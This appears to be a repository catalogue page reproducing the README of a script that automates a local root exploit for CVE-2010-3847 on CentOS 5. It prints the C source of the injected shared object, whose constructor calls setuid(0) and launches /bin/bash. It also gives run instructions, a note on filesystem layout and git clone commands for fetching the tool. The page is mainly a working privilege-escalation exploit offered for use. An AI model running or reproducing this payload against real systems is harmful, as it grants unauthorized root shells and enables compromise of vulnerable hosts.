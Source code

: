 # cve-2010-3847

Script to take advantage of CVE-2010-3847

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/magisterquis](https://github.com/magisterquis) |
| Url      | [https://github.com/magisterquis/cve-2010-3847](https://github.com/magisterquis/cve-2010-3847)                                               |
| Stars    | 0                                                          |
| License  | zlib License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

CVE-2010-3847 script
====================
Meant to automate the exploit discussed in
[http://marc.info/?l=full-disclosure&m=128776663124692&w=2].  Tested on
CentOS 5 x86.

The DSO it outputs is compiled from the following code:
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
void __attribute__((constructor)) init()
{
   setuid(0);
   system("/bin/bash");
}
```

Usage
-----
Download it, put it somewhere executable, and run it.

Gotchas
-------
`/tmp` and wherever `ping` is have to be on the same filesystem.  If not,
adjust the paths accordingly.



## Get the content

```
git clone https://github.com/magisterquis/cve-2010-3847
cd cve-2010-3847
```

{% embed url="https://github.com/magisterquis/cve-2010-3847" %}

<figure><img src="https://avatars.githubusercontent.com/u/499530?v=4" alt=""><figcaption><p>magisterquis</p></figcaption></figure>
